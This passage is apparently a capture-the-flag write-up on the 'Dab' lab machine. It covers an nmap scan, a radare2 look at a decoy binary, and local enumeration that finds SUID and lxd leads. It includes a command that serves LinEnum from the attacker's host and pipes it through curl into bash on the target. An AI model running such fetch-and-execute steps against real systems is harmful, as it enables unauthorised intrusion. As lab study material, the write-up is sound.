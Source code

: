 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```

Analysis Breakdown:
moves str_root_dab into edi and printf
fget asking for input
calling sleep for three then calling “that would have been too easy”

overall: rabbit hole

secondary view: C# friendly view

```pdc @ main```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549223316528_image.png)



move to continue local system enum with Linenum

```python -m SimpleHTTPServer 8000```


move Linenum to box and run

```curl LOCALIP:8000/LinEnum.sh | bash```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549223495165_image.png)


LINENUM MOD:
change LinEnum script to

```+thorough=1```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549223564776_image.png)


*Runs though enumeration.*

LinEnum results:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549223711788_image.png)


Analysis:

- Kernel 2018 - no privesc
- root login - back in august
- passwd contents - lxd group interesting
- root can login through ssh
- crons normal - nothing modified recently
- nothing interesting in teh ARP history - non docker image
- SUID files - emphaisis on anything thats 2018 - found myexec / ldconfig (not a normal binary)

poke at myexec

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549224041163_image.png)


download file locally with secure copy (scp)
r2 on myexec

```aaa```
```